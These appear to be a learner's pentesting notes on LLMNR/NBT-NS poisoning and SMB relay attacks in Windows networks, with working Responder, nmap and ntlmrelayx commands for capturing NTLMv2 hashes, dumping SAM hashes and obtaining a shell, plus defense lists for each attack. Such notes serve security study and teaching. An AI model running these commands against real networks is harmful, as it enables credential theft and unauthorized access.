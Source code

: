 https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa

# LLMNR Poisoning
- LLMNR = Link-Local Multicast Name Resolution
- used to identify host when DNS fail to do so.
- aka NBT-NS
- Flaw is when we response to this services, the service respone back to us with a user's username and NTLMv2 hash
- MITM attack
- pretent to be a server. see figure below
- ```Responder.py``` (one of **impacket**)
  - response to users request
  - best time to use is early in the morning or after lunch time
  - hashcat -m 5600 = NTLMv2 hash

![overview](../pics/Screenshot%202020-06-18%20at%2017.09.43.png)

## responder
```console
$ python3 responder.py -I eth0 #interface -rdwv 
```

## defenses
1. Disable LLMR and NBT-NS
2. If dont want to disable LLMR and NBT-NS then
   - Network access control
   - Strong password > 14 char and limit common word usage

# SMB Relay
instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

## requriments
- SMB signing mush be disable on the target. If it is enable then the target will know that the packet wasnt send by whoever it is. If it is disable, smb will not check and it will trust the sender and allow the attacker to access it 
- Relayed user credentials must be admin on machine


Use ```responder``` for listening and use ```ntlmrelayx.py``` to relay the hashas and exploit another machine

## Discovering host with smb signing disable
1. use Nessus
2. use Nmap
```console
$ nmap --script=smb2-security-mode.nse -p445 192.168.10.0/24
```
then looking for ip that has **Message signning enabled but not requried** and put those IP in one .txt (eg. targets.txt). targets.txt will be used when ```ntlmrelayx.py``` to relay cerdentail captured from ```responder``` to these targets.
## responder 
```console
nano Responder.conf
```
and turn ```SMB``` and ``HTTP`` to **off**
![conf](../pics/Screenshot%202020-06-21%20at%2023.46.45.png)

then run
```
$ python3 responder.py -I eth0 #interface -rdwv 
```

## ntlmrelayx.py
It takes the relay and it pass it to the target file

```console
$ python3 ntlmrelayx.py -tf targets.txt -smb2support
```
it will dump local SAM hashes


to get shell run
```console
$ python3 ntlmrelayx.py -tf targets.txt -smb2support -i
$ nc ip port # to what it says in ntlmrelayx
```


```-c``` execute command, eg. ```-c "whoami"```

## Defenses
- Enable SMB signing on all devices
  - Pro: stop the atk
  - Con: 50% preformance drops
- Disable NTLM authentication on networks
  - Pro: stop atk
  - Con: if Lerberos stops working, windows defualt back to NTLM
- Local admin restriction:
  - Pro: Can prevent a lot of lateral movement
  - Con: potential incress in the amount of service desk tickets